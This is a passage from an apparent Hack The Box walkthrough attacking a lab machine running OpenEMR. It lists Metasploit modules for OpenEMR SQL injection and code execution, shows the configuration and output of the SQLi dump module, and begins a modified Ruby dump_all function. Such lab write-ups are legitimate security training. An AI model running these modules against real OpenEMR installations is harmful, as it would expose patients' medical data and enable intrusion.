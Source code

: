       #  Name                                             Disclosure Date  Rank       Check  Description
      -  ----                                             ---------------  ----       -----  -----------
      0  auxiliary/sqli/openemr/openemr_sqli_dump         2019-05-17       normal     Yes    OpenEMR 5.0.1 Patch 6 SQLi Dump
      1  exploit/unix/webapp/openemr_sqli_privesc_upload  2013-09-16       excellent  Yes    OpenEMR 4.1.1 Patch 14 SQLi Privilege Escalation Remote Code Execution
      2  exploit/unix/webapp/openemr_upload_exec          2013-02-13       excellent  Yes    OpenEMR PHP File Upload Vulnerability


We configure the different option, especially the `vhost` and run the exploit.
We quickly get some result and it start to dump the first table out of 295… 295!
This will take forever.

    :::text
    msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > show options

    Module options (auxiliary/sqli/openemr/openemr_sqli_dump):

      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
      RHOSTS     10.10.10.188     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
      RPORT      80               yes       The target port (TCP)
      SSL        false            no        Negotiate SSL/TLS for outgoing connections
      TARGETURI  /                yes       The base path to the OpenEMR installation
      VHOST      hms.htb          no        HTTP server virtual host


    msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > run
    [*] Running module against 10.10.10.188

    [*] DB Version: 5.7.30-0ubuntu0.18.04.1
    [*] Enumerating tables, this may take a moment...
    [*] Identified 295 tables.
    [*] Dumping table (1/295): CHARACTER_SETS
    ^C[-] Stopping running against current target...
    [*] Control-C again to force quit all targets.

We grab the exploit code on [rapid7 github](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/sqli/openemr/openemr_sqli_dump.rb)
and rewrite the `dump_all` module in order to just list the different tables (we
just comment the lines dumping and saving the tables).

    :::ruby
      def dump_all
        payload = 'version()'
        db_version = exec_payload_and_parse(payload)
        print_status("DB Version: #{db_version}")
        print_status('Enumerating tables, this may take a moment...')
        tables = enumerate_tables
        num_tables = tables.length
        print_status("Identified #{num_tables} tables.")
